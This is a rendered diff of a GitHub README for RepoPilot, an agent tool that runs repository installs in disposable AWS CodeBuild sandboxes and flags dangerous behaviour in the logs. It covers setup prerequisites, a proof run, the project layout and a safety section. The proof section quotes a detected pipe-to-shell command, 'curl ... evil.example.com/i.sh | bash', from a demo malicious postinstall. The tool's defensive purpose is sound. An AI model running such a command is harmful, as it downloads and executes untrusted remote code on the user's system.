

Before and after one commit to simplynadaf/repopilot-sandbox-tool, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Add advanced README: before/after toggle headline, run-vs-scan comparison, threat model, reusable pattern, proof, honest take, FAQ

````diff
--- a/README.md
+++ b/README.md
@@ -311,81 +259,74 @@ you need and where each piece is configured.
-**Steps**
-```bash
-# 1. Clone + install
-git clone https://github.com/simplynadaf/repopilot-your-first-run-agent.git
-cd repopilot-your-first-run-agent && make setup
-
-# 2. Deploy the Lambda (creates the IAM role + function, uploads the code)
-make deploy                      # uses your AWS CLI creds; region from $AWS_REGION
-
-# 3. (For a public web UI) put an HTTP API Gateway in front of the Lambda:
-API_ID=$(aws apigatewayv2 create-api --name repopilot-api --protocol-type HTTP \
-  --target arn:aws:lambda:us-east-1:<ACCOUNT_ID>:function:repopilot \
-  --cors-configuration AllowOrigins="*",AllowMethods="POST,OPTIONS",AllowHeaders="content-type" \
-  --query ApiId --output text)
-aws lambda add-permission --function-name repopilot --statement-id apigw \
-  --action lambda:InvokeFunction --principal apigateway.amazonaws.com \
-  --source-arn "arn:aws:execute-api:us-east-1:<ACCOUNT_ID>:$API_ID/*/*"
-echo "Your endpoint: https://$API_ID.execute-api.us-east-1.amazonaws.com"
-
-# 4. Paste that endpoint into ui/index.html -> const ENDPOINT, open the file, pick Live.
-```
-
-Prefer the terminal? Skip the web UI entirely and just run `make run-ai REPO=pallets/flask` or
-`python3 -m repopilot.cli torvalds`.
+**Prerequisites:** an AWS account with the AWS CLI configured, `codebuild:*` + `logs:*` + `iam:CreateRole`
+to run the setup script, and `bedrock:InvokeModel` for Nova Pro if you drive the full agent.
+Cost: CodeBuild bills per build (pennies). The public demo is a static replay, so it is free to host.
 
 ---
 
 ## ✅ Proof It Works
 
-Verified against real repos with a real Amazon Nova Pro call:
+Both scenarios were validated end to end against **live AWS CodeBuild** (account, `us-east-1`):
 
-```bash
-$ aws lambda invoke --function-name repopilot --region us-east-1 \
-    --cli-binary-format raw-in-base64-out \
-    --payload '{"body":"{\"repo\":\"pallets/flask\"}"}' out.json && cat out.json
+```
+# Safe repo
+run("pallets/click", "https://github.com/pallets/click", "pip install .")
+  -> status: SUCCEEDED   install_ok: True   danger_signals: []   verified: True
+
+# Sneaky postinstall (install reaches the network)
+run("demo/sneaky-postinstall", ..., install that echoes a curl|bash)
+  -> status: SUCCEEDED   install_ok: True
+     danger_signals: [ remote_pipe_to_shell :: "curl -s https://evil.example.com/i.sh | bash" ]
+     verified: True
 ```
 
-RepoPilot fetched Flask (236 files), scored it **98/100 (A, Excellent)** across the five dimensions, detected the Python stack, read `python >=3.11` from the real `pyproject.toml`, and Nova Pro returned a guide that leads with the score and then the ordered first-run steps. All 23 unit tests (tools + score engine) pass locally and in CI.
+The second run is the whole thesis: the sandbox executed the install, and the danger showed up
+in the **real log**, where a static README scan would never have seen it. Nine unit tests cover
+the verdict logic and the poll/fetch loop with a fake client.
 
 ---
 
 ## 📁 Project Structure
 
 ```
-repopilot-your-first-run-agent/
+repopilot-sandbox-tool/
 ├── README.md
-├── LICENSE                      # Apache-2.0
-├── Makefile                     # setup / test / run / run-ai / deploy
+├── LICENSE                         # Apache-2.0
 ├── requirements.txt
-├── lambda_handler.py            # self-contained Bedrock (Nova Pro) handler for Lambda
 ├── repopilot/
-│   ├── tools.py                 # the 7 pure-Python tools (unit-tested)
-│   ├── score.py                 # the 0-100 RepoPilot Score engine (weighted dimensions)
-│   ├── github.py                # stdlib GitHub fetch -> RepoSnapshot (no deps)
-│   ├── agent.py                 # Strands + Nova Pro loop + deterministic fallback
-│   └── cli.py                   # the friendly first-run CLI
+│   ├── sandbox.py                  # ★ THE NEW TOOL: CodeBuild run + danger scan + verdict
+│   ├── agent.py                    # Strands agent: 5 read-tools + run_in_sandbox (6 total)
+│   ├── tools.py  score.py  github.py  cli.py   # the original RepoPilot tools
 ├── tests/
-│   ├── test_tools.py            # tool tests
-│   └── test_score.py            # score-engine tests (23 total, no AWS needed)
+│   └── test_sandbox.py             # 9 tests, no AWS needed (injectable fake client)
+├── scripts/
+│   ├── setup_sandbox.sh            # create the CodeBuild project + least-privilege role
+│   └── teardown_sandbox.sh         # destroy everything (no lingering cost)
 ├── iam/
-│   └── bedrock-invoke-policy.json  # least-privilege Nova Pro invoke
-├── scripts/
-│   └── deploy.sh                # build + deploy the Lambda (reproducible)
-├── ui/
-│   └── index.html               # premium single-file demo UI
+│   ├── codebuild-trust.json        # CodeBuild assume-role
+│   └── codebuild-permissions.json  # least-privilege: CloudWatch Logs only
 └── docs/
-    └── architecture.html        # the How It Works diagram (source for architecture.png)
+    ├── index.html                  # the before/after toggle demo (v1 reads / v2 runs)
+    └── replay-data.json            # real recorded run output for the static demo
 ```
 
 ---
 
-## 🔐 Least-Privilege IAM
+## 🔐 Least-Privilege & Safety
 
-The agent's only non-read action is `bedrock:InvokeModel` scoped to Nova Pro. The deployment role gets just that plus basic Lambda logging. Policy ships at [`iam/bedrock-invoke-policy.json`](iam/bedrock-invoke-policy.json).
+- The CodeBuild service role can do **only** CloudWatch Logs (`iam/codebuild-permissions.json`).
+  The clone + install need no AWS permissions, so none are granted.
+- Short build timeout; the container is **ephemeral and destroyed** after each run.
+- The untrusted code runs **in AWS, never on your machine**, which is the entire safety argument.
+- Teardown script removes the project, role, and log group so nothing lingers or bills.
 
 ---
 
 ## 🧾 An Honest Take
 
-Grounded in actually building and deploying this, not a marketing page.
+**What is genuinely strong**
+- It actually runs the code and reads the real log. That is a categorically better signal than
+  static README scanning for install-time danger.
+- The verdict logic is separated from the AWS plumbing behind an injectable client, so it is
+  unit-tested without AWS and the AWS calls are a thin, auditable seam.
+- A real bug (YAML breaking on quoted install commands) was caught during a live run and fixed
+  with a base64-encoded script. The tests now cover exactly that case.
 
@@ -433,6 +381,6 @@ Apache-2.0. See [LICENSE](LICENSE).
 
-**If RepoPilot gave you a calmer first run, consider a ⭐**
+*Built on AWS: CodeBuild · Amazon Bedrock (Nova Pro) · Strands Agents*
 
-*Built with 💜 on AWS: Strands · Amazon Nova Pro · AWS Lambda*
+**If this made you think twice before your next `npm install`, consider a ⭐**
 
 </div>
````
Also changed, not shown: other parts of README.md (+211 -256 lines).
